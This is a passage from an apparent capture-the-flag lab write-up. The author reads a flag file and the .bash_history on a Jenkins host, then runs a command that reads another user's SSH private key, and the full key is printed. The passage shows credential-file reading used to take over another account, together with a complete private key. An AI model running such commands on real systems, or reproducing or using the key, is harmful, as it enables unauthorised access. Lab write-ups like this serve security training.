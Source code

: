 ```bash
jenkins@dev1:~$ cat FLAG70.txt 
41796ff9d0e29c02c961daa93454942d9c6bea7d
jenkins@dev1:~$
```
{: .nolineno}
{: .nolineno}

Now lets check the .bash_history file here →

```bash
jenkins@dev1:~$ cat .bash_history 
history 
exit
history 
exit
cat /home/juniordev/.ssh/id_rsa
exit
cat .ssh/id_rsa
cat /home/juniordev/.ssh/id_rsa
netstat -natupl
curl
curl
ps aux
ps aux | grep root
ps aux | grep 8080
exit
jenkins@dev1:~$ 
```
{: .nolineno}
{: .nolineno}

So I can `cat` the data inside the `id_rsa` file of `juniordev` user , so lets do it →

```bash
jenkins@dev1:~$ cat /home/juniordev/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEAutE2eBkhuyABIPkuGJwfsu+rmmcd/f66OU8gwZ8z60ahlcxRTfhp
zN4JkbwvqyvXfEqOzUQgTSy+jl19hJsFdaH9eJIRb6Kgj1I24ynDUP+tiXv8CaTix62pf7
8v/D2ChO0ToG1EzqPsfUG6cNG0FR5Rht8/rqBAQIq6RAHVBg/RKiyRPSW4Z1K3Az559345
5UDgAS4/luKMc7Kw0j6THzYG/suDWsbePa7GPAKLNUPvy/sUdpoGmJqCd8nfrpgbxJonv0
7erSOmn64g25Wac5CwQ3FymrR93HfQ1rqcxAFSXI8vBgx1BKd6uQ8fw1wDmfzq01pL29Ny
Ae8rlC/EXQAAA8i38al7t/GpewAAAAdzc2gtcnNhAAABAQC60TZ4GSG7IAEg+S4YnB+y76
uaZx39/ro5TyDBnzPrRqGVzFFN+GnM3gmRvC+rK9d8So7NRCBNLL6OXX2EmwV1of14khFv
oqCPUjbjKcNQ/62Je/wJpOLHral/vy/8PYKE7ROgbUTOo+x9Qbpw0bQVHlGG3z+uoEBAir
pEAdUGD9EqLJE9JbhnUrcDPnn3fjnlQOABLj+W4oxzsrDSPpMfNgb+y4Naxt49rsY8Aos1
Q+/L+xR2mgaYmoJ3yd+umBvEmie/Tt6tI6afriDblZpzkLBDcXKatH3cd9DWupzEAVJcjy
8GDHUEp3q5Dx/DXAOZ/OrTWkvb03IB7yuUL8RdAAAAAwEAAQAAAQA5yhgQZK3Thd3zhkFl
KX6AyrUJyVY0yQRwT/LxEj9sS2gWv6Jy/SI1VoYdR9pzF9fLwgCUrLtVRD8aKP938sBomB
ihoIW2Q9dpHmSONtANkVnsSqc3kIL6g9UICGtemuRyHChTGxoK1hiE0r1KwwPy+HL9xreb
XEUj8gYWnX55JgnNRnxgHo1ws2YRD0L/+j6jSbf1HstLuhupz6JPGCS6Ev6IVt9w2catEQ
I1chKx0W/pgXC2E3qxzoGahaFtzBnOlIlp9gUJDF/UKbRwrVB2Dm8amgaIKWng+aWlWsRB
LUIt9QvAGnphdH5CLdGb22UQ/3Ke5J1e+zRJ4mqNpZGBAAAAgQCPdYfTvB1Tat+k8ZbCVc
XOUFa5KuPJa5iOcHJT90fAJVjLp53LGTCd66QRUB+y30jaVFZQTDPVqdpOCaBq4qdWvQmU
X7nrLuH+R1U7gE3rCq0qrhD9OLsQBaHI1yisN/30+OcqQmqKLcjtWEKwPRU0ASLMEkkcFh
H18RYd/0y7FAAAAIEA6l21bcwPQe/rN5MxPbmNUtxZzEXe9aJw4SQd4fGIwo73gK3Ppb5z
vOhUcCKH5TFGhCwlvTen0VyLJcloGM1H7xXjm1lZdbpsifIONms/nCQgDvOaxTq/4RIAHW
uolQblUbaleM3qhsDnq8bBGqZAY0iuccC1RYLpjl8rynAE36EAAACBAMwP4XRz977LV5pA
xQraLfy46irxfENlAGttvrSAiE6VoIuaZVJhwUl6iFkS6/rPv2wRKXNi6D9lcC9/yHPpQw
v7Hlj/XcPHHpjWxXmxybyNtUjXm/g93802g/4I75ZEe9d97lZSuTQiWcsZZiD5b09+7HZK
WtJNIy1nwgxLoJs9AAAADmp1bmlvcmRldkBkZXYxAQIDBA==
-----END OPENSSH PRIVATE KEY-----
jenkins@dev1:~$
```
{: .nolineno}
{: .nolineno}